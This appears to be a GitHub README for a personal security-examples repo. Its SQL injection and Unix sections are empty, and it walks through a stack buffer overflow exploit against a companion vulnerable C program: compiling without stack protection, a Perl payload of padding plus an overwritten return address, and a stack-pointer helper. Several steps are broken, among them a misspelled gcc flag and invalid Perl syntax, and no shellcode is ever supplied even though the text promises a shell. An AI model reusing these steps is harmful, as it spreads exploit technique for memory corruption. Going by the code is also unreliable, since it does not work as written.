 ## Better be Safe than Sorry
#### A continuing updating repo of computer security examples and exploits.

1. [General Unix Vulnerabilities](#Unix_Vulnerabilities)

2. [SQL Injections](#SQL_Injections)

3. [Buffer Overflows](#Buffer_Overflows)

<a name="Unix_Vulnerabilities"></a>
#### General Unix Vulnerabilites

<a name="SQL_Injections"></a>
#### SQL Injections

<a name="Buffer_Overflows"></a>
#### Buffer Overflows

Buffer overflow happens when when a program writing data to a buffer, exceeds the bounds of the buffer, causing the excess data to overflow into adjacent memory. 

From the example vulnerable code [here](https://github.com/amandazhuyilan/Better-be-Safe-than-Sorry/blob/master/buffer_overflow.c), the buffer overflow can happen at the ```strcat``` line, where the boundary of the concatenated string appended into the buffer is not checked, causing an overflowed buffer.

Steps to exploit this vulnerability and invoking a shell is as follows:

1. Complile the buffer_overflow.c with the following command, turning off the stack protection system and enabling debugging:

```gcc buffer_overflow.c -g -fno_stack_protector -o buffer_overflow```

2. Figure out how many pops it takes for us to get to the end of the buffer, usually the number is a little bigger than the buffer size (500 for this example). In this example we are going to use a perl script ```exploit.pl``` to help us generate the needed 500ish characters:

```
#!/usr/bin/perl

printf "A" x500;
```
```chmod +x exploit.pl``` to make sure it has the necessary permissions, then feed it into the ```buffer_overflow``` executable that we just compiled in gdb:
 
 ```$gdb(buffer_overflow)```
 ```$(gdb)run `exploit.pl` ```
 
Modify the number of "A"s in the perl script so that the buffer is overflowed successfully it would show up as a segmentation fault at 0x41414141. 

3. Add a ```stack.c``` that looks like this:
```
#include <stdio.h>

unsigned long get_sp()
{
	__asm__("mov %esp, %eax");
}

main()
{
	printf("SP is: %lx\n\n", get_sp());
}
```
Compile it with ```gcc -m32 -o stack```. This ```stack``` execuatble will print the current stack pointer that we will use later. Note that the stack pointer address doesn't change frequently, but it might be different if you run ```stack``` many commands away.

4. Modify ```exploit.pl``` to look like the following:
```
#!/usr/bin/perl

$RETURN_ADDRESS=0x'the sp address resulted from stack';

$RETURN_ADDRESS=$RETURN_ADDRESS - $ARGV[0];

$address = pack("l",$RETURN_ADDRESS);  //Perl has its own built in function to modify the address to little endian

printf "A" x517$address;   //517 is what I got. Put in your own number
```

Make sure you ```chmod +x exploit.pl``` after you finished modifiying it.

5. You're almost all good to go! Type in ```buffer_overflow `exploit.pl` ```. It'll be highly likely that you will see ```segmentation fault```, this is where ```$RETURN_ADDRESS=$RETURN_ADDRESS - $ARGV[0];``` in the ```exploit.pl``` will help modify the memory address a bit. Try ```buffer_overflow `exploit.pl -1000` ```, ```buffer_overflow `exploit.pl 1000` ``` etc. (Mine worked at ```buffer_overflow `exploit.pl -2000` ```).

If all the steps are performed in order, and right, a shell should be exploited :D





